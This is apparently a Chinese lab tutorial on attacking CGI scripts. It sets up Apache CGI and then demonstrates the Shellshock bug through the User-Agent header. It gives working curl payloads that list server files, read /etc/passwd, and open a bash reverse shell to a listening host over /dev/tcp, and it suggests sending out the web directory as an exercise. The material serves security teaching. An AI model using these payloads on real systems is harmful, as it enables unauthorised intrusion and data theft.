


# 攻击CGI程序

## CGI概念

CGI（common gateway interface）通用网关接口，该程序可以通过网页运行各种后台程序，如shell、python、c等，
apache默认是支持CGI的，但是需要配置一下，nginx默认不支持CGI，可以通过安装额外的插件来支持。

## apache环境搭建

```bash
sudo apt install apache2
sudo ln -s /etc/apache2/mods-available/cgid.conf /etc/apache2/mods-enabled/cgid.conf
sudo ln -s /etc/apache2/mods-available/cgid.load /etc/apache2/mods-enabled/cgid.load
sudo ln -s /etc/apache2/mods-available/cgi.load /etc/apache2/mods-enabled/cgi.load
sudo /etc/init.d/apache2 restart
```

apache默认运行cgi程序的目录在/usr/lib/cgi-bin，我们在这个目录新建一个测试文件
```bash
sudo vi /usr/lib/cgi-bin/test.cgi
```

写入文件内容：
```bash
#!/bin/bash

echo "Content-type: text/plain"
echo 
echo
echo "Hello World"
```

给文件可执行权限
```bash
sudo chmod 755 test.cgi
```

最后通过浏览器访问该文件：  
http://192.168.0.11/cgi-bin/test.cgi  
显示如下结果则测试成功  
  

## web调用cgi的原理

 

!!! Note

    web向apache发送cgi请求时，Apache会调用fork()函数新建一个进程，然后使用exec()函数族中的某个
    函数在新进程中执行cgi程序。因为cgi程序以"#!/bin/bash"开头，因此该程序是一个shell脚本，实际
    执行的是/bin/bash

## 攻击入口原理

```bash
#!/bin/bash

echo "Content-type: text/plain"
echo 
echo
echo "** Environment Variables ***"
strings /proc/$$/environ
```
通过-v选项打印请求：
```bash
curl -v http://192.168.0.11/cgi-bin/test.cgi
```

可以修改User-Agent字段：
```bash
curl -A "test" -v http://192.168.0.11/cgi-bin/test.cgi
```

!!! Note

    这个实验说明，cgi进程会从远程用户那里获得HTTP_USER_AGENT，而这个值可以由用户传入，故只要用户
    带上这个值就可以进行攻击（还可以使用其他字段，如Referer等）

## 实施shellshock攻击

### 查看服务器目录

```bash
curl -A "() { echo hello;}; echo Content_type: text/plain; echo; /bin/ls -l" http://192.168.0.11/cgi-bin/test.cgi
```

 

### 盗取密码

```bash
curl -A "() { echo hello;}; echo Content_type: text/plain; echo; /bin/cat /etc/passwd" http://192.168.0.11/cgi-bin/test.cgi
```


!!! warning

    如何修改Content_type实现压缩web服务器的目录并发送到外部？

### 反向shell

!!! Note

    反向shell的目的是让shell程序把它的输入输出都交由远程计算机控制，关键在于重定向标准输入、
    输出和错误设备到一个网络连接。故实施时双方要建立一个tcp连接。

步骤：  
* 宿主机运行
```bash
nc -lv 9090
```

* 宿主机发动攻击
```bash
curl -A "() { echo hello;}; echo Content_type: text/plain; echo; echo; /bin/bash -i > /dev/tcp/172.16.200.201/9090 0<&1 2>&1" http://192.168.0.11/cgi-bin/test.cgi
```
> -i 进入可交互模式  
> 172.16.200.201是宿主机地址  
> 0<&1 0是标准输入设备，将标准输入用作标准输出，而输出已重定向到tcp连接，故是输入和输出都走tcp  
> 2>&1 2是标准错误，也走tcp  

在宿主机上获得了目标服务器的shell，cgi进程的用户id是www-data


